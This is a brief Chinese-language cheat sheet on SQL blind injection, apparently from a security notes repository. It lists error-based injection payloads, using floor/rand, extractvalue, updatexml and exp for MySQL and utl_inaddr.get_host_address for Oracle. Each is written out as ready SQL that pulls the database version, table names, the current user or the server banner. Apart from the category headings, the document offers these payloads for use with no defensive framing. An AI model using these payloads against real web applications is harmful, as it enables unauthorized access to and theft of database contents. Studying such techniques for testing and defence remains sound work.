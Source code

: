 # SQL盲注

盲注分类 ：

①布尔形注入 ②时间盲注 ③报错注入

## 常见报错注入函数

1.floor\(Mysql\): and\(select 1 from \(select count\(\*\), concat\(version\(\), floor\(rand\(0\)\*2\)\)x from information\_schema. tables group by x\)a\);

```sql
and(select 1 from (select count(*), concat(version(), floor(rand(0)*2))x from information_schema. tables group by x)a);
```

2.Extractvalue\(Mysql\): and extractvalue\(1, concat\(0x5c,\(select table\_name from information\_schema.tables limit 1\)\);

```sql
and extractvalue(1,concat(0x5c,(select table_name from information_schema.tables limit 1));
```

3.Updatexml\(Mysql\): and 1=\(updatexml\(1,concat\(0x3a,\(select user\(\)\)\),1\)\)

```sql
and 1=(updatexml(1,concat(0x3a,(select user())),1))
```

4.EXP: Exp\(~\(select \* from\(select user\(\)\)a\)\)

```sql
Exp(~(select * from(select user())a))
```

5.UTL\_INADDR. get\_host\_address\(Oracle\): and 1=utl\_inaddr.get\_host\_address\(\(select banner\(\) from sys.v\_$version where rownum=1\)\)

```sql
and 1=utl_inaddr.get_host_address((select banner() from sys.v_$version where rownum=1));
```



